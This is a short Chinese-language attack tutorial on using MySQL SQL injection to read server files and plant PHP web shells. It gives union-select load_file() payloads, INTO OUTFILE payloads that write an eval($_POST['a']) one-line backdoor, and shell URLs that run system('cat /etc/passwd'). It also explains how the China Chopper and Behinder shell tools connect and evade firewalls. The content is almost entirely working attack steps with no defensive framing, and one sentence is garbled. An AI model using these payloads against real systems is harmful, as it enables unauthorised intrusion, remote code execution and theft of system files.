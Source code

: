 # 文件读写与木马植入

## 一、读写权限确认

```sql
show global variables like '%secure%';
# 查看mysql全局变量的配置，当输入以上命令后，结果
secure_file_priv = 空 的时候，任意读写
secure_file_priv = 某个路径的时候，只能在规定的路径下读写
secure_file_priv = NULL 不能读写
```

## 二、读取文件

- 利用SQL语句读取系统文件，先读取常规文件（明确路径），如果能成功读取，则继续读取其他文件；如果明确知道路径，则尝试爆破路径下的文件；如果不知道路径，则爆破路径。

```
-1' union select 1,2,3,load_file("c:/windows/service,inf"),5,6

-1' union select 1,2,3,load_file("D:/XamppNew/htdics/security/commin.php"),5,6
```

## 三、写入木马

```
例如：select "helloworld" into outfile "/opt/lampp/htdocs/security/muma.php"

-1 union select 1,2,3,4,5,"<?php eval($_GET['a']);?>" intooutfile "D:/XamppNew/htdocs/security/temp/muma.php"

如果列数未知，也可以不停尝试，注入一次，访问一次，确认是否注入成功

一句话木马：
<?php eval($_POST['a']);?>
eval可以将一段字符串当成代码来执行，如果用户可以直接 将这段有效的PHP代码传入后台，则可以执行任意代码或指令

/security/temp/muma/php?a=phpinfo();
/security/temp/muma/php?a=echo date('Y-m-d');
/security/temp/muma/php?a=system('ip addr');
/security/temp/muma/php?a=system('cat /etc/passwd');

以上为GET请求的方式，也可以用POST请求的方式，这样可以添加的载荷更大，可以上传大马，但建议通过curl下载的方式植入大马
-1 union select 1,2,3,4,5,"<?php eval($_POST['a']);?>" intooutfile "D:/XamppNew/htdocs/security/temp/muma.php"

也可以上传一句话木马后，通过中国菜刀连接以便于操作
```

## 四、中国菜刀

- 必须提前已经我去南城了木马植入然后才能使用。
- 木马必须是POST请求，参数自定义，在菜刀中给出正确的参数名。
- 菜刀采用Base64编码，相当于明文传输，目前已经被WAF进行防护了

## 五、冰蝎

- 冰蝎是加密传输，防火墙很难分析出流量特征，比较容易绕开防火墙
- 先上传一个冰蝎自己的带加密解密功能的shell脚本
- 上传shell的过程有以下方式
  - 直接在命令行运行命令按行用echo写入
  - 用curl通过公网进行远程文件下载
  - 用菜刀连接，然后基于菜刀直接上传shell
  - 如果目标站点存在文件上传漏洞，直接在文件上传的时候上传shell